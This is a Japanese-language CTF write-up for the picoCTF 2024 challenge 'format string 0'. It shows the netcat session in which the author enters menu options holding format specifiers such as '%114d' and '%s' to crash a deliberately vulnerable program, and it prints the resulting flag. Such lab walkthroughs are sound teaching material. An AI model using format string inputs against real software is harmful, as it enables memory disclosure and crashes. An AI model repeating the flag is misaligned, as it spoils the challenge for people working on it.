 # format string 0:Binary Exploitation

Can you use your knowledge of format strings to make the customers happy?\
Download the binary [here](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202024/format%20string%200/format-string-0).\
Download the source [here](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202024/format%20string%200/format-string-0.c).
Connect with the challenge instance here: `nc mimas.picoctf.net 60866`

# Solution

タイトルが「format string」となっているのでおそらくformat string attack(書式文字列攻撃)でフラグが得られるのだろう。とりあえず、`nc mimas.picoctf.net 60866`を実行してみる。
```
$ nc mimas.picoctf.net 60866
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```
フラグが出てきてしまった。

`picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}`


`Enter your recommendation`のところでどうしてその選択肢を選んだのかを説明していく。
最初の選択肢は、`Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe`の3つ。書式文字列攻撃を念頭におくと、%が含まれている選択肢が怪しいと考えた。`Gr%114d_Cheese`を入力すると次に進んだ。
2回目の選択肢は、`Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak`の3つ。これも最初の選択肢と同様に%が含まれている選択肢を選ぶわけだが、2つあることに気づく。`%t`と`%s`を比較してフラグが出てきそうなのは`%s`なので`Cla%sic_Che%s%steak`を選び、入力した。すると、フラグが得られた。

